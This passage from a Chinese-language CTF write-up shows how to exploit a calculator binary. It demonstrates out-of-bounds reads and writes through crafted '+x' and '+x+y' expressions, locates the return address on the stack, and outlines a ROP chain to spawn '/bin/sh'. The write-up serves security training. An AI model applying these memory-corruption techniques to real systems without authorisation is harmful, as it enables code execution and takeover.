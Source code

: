 - `result[x]=o+y`
- `result[x+1]=y`

即+x+y这个表达式就可以完成**数组的越界写**，例如我们尝试一下：

```bash
➜  ./calc
=== Welcome to SECPROG calculator ===
+360
-4724328
+361
134517913
+360+10
-4724318
+361
10
```

### 总结

所以本题就是通过构造`+x`以及`+x+y`这两种类似的表达式（加减乘除均可），完成数组越界的读写，具体使用方式如下：

- +x：数组越界读，读取`result[x]`
- +x+y：数组越界写，一次会发生两处的写：`result[x]=o+y`以及`result[x+1]=y`

## 利用

### 分析栈布局

我们这里定义的result数组，就是在calc函数中的v1和v2，在IDA中可以看到v1和ebp的偏移为0x5a0：

```c
int v1; // [esp+18h] [ebp-5A0h]
```

不过我们在使用即兴表达式进行越界读写的时候，数组是int型的，所以内存步长是4个字节，所以是0x5a0/4=360，所以返回calc的栈帧中的返回地址应该距v1有361个整型偏移，我们实验一下：

```
➜  ./calc
=== Welcome to SECPROG calculator ===
+361
134517913
```

转成16进制：134517913=0x8049499，在IDA中：

```
.text:08049494                 call    calc
.text:08049499                 mov     dword ptr [esp], offset aMerryChristmas ; 
```

果然是返回地址

### ROP

本题是静态链接的程序，没有后门函数，也没有搜索到"/bin/sh"字符串，不过有int 0x80的gadget，所以需要找到一个可用的ROP链执行execve("/bin/sh",0,0)的系统调用，进而getshell。而且我们只能向栈上输入数据，所以"/bin/sh"这个字符串还得放到栈上，所以还需要知道栈的地址。执行有三个参数的系统调用需要控制4个寄存器，分别是eax，ebx，ecx，edx。32位的系统调用参数在这张表中可以查到：[Linux System Call Table](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html)
